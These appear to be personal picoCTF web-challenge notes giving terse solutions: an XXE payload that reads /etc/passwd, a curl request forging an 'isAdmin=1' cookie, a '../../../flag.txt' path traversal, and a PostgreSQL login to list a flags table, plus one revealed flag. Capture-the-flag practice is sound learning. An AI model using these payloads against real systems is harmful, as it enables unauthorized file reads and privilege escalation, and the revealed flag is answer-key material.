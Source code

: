 ```yaml
---
date: March 13, 2025
description: practice
platform: picoCTF
categories: Web
tags:
  - xxe
  - path-traversal
---
```

> short solutions most are simple checking request/ responses 


# SOAP
standard XXE file inclusion
```xml
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE data [<!ENTITY test SYSTEM "file:///etc/passwd" >] >
<data><ID>1&test;</ID></data>
```
# findme
just check proxy/sitemap  cause redirections
`test:test`

# SQL Direct
#postgres
learn postgres
```sql
psql -h saturn.picoctf.net -p 57862 -U postgres pico
\l  -- list databases
\dt   -- list tabes 

List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | flags | table | postgres
 
SELECT * FROM flags
```

# Roboto Sans
encrypted robots txt file

# Power Cookie
```bash
curl -s http://saturn.picoctf.net:57182/check.php -b "isAdmin=1"
```
picoCTF{gr4d3_A_c00k13_65fd1e1a}

# Forbidden Paths
Can you get the flag? We know that the website files live in `/usr/share/nginx/html/` and the flag is at `/flag.txt` but the website is filtering absolute file paths. Can you get past the filter to read the flag?

`../../../flag.txt`
